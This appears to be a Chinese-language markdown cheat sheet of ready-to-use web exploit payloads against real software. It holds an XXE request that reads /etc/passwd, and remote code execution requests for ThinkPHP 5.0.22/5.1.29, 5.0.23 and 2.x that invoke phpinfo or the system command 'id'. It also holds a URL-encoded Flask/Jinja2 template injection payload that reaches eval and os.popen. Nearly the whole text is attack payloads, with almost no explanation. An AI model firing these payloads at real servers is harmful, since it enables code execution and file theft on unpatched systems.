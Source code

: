 # Real

- [PHP](#PHP)
    - [XXE](XXE)
    - [thinkphp](#thinkphp)
        - [ThinkPHP5-5.0.22/5.1.29-远程代码执行漏洞](#ThinkPHP5-5.0.22/5.1.29-远程代码执行漏洞)
        - [ThinkPHP-5.0.23-Rce](#ThinkPHP-5.0.23-Rce)
        - [ThinkPHP-2.x-任意代码执行漏洞](#ThinkPHP-2.x-任意代码执行漏洞)
    - [Flask](#Flask)
        - [Jinja2](Jinja2)

## PHP

### XXE

Libxml2.9.0 以后 ，默认不解析外部实体，对于PHP版本不影响XXE的利用
`dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php`均可触发XXE漏洞

```
/dom.php
/SimpleXMLElement.php
/simplexml_load_string.php
```

```
POST /dom.php HTTP/1.1

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

![image](./img/php-xxe.png)

### thinkphp

#### ThinkPHP5-5.0.22/5.1.29-远程代码执行漏洞

```
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

或者工具一把梭

#### ThinkPHP-5.0.23-Rce

```bash
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

#### ThinkPHP-2.x-任意代码执行漏洞

```
http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D
```

### Flask
#### Jinja2

Flask（Jinja2） 服务端模板注入漏洞

```
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```